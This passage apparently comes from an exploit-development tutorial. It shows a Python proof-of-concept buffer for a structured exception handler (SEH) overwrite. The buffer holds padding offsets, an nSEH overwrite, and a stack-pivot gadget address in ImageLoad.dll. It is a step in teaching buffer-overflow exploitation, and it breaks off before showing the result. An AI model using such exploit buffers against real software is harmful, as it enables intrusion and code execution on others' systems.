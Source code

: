 Let's update our exploit to, instead overwriting SEH with garbage, execute the pivot! Once we run the application and trigger the crash, after passing execution back to the program, we should land back on our buffer.

The PoC now looks like this:

{% codeblock lang:python %}
# Offsets
max_size = 5000
seh_offset = 4059
eax_offset = 4183
 
buffer = "A" * seh_offset					# padding
buffer += "BBBB"							# overwrite nSEH pointer
buffer += struct.pack("<I", 0x1002280a)		# overwrite SEH record with stack pivot (ADD ESP,1004 # RETN [ImageLoad.dll])
buffer += "A" * (eax_offset - len(buffer))	# padding
buffer += "DDDD"							# overwrite EAX to always trigger an exception
buffer += "A" * (max_size - len(buffer))	# padding
{% endcodeblock %}

And that's the result:
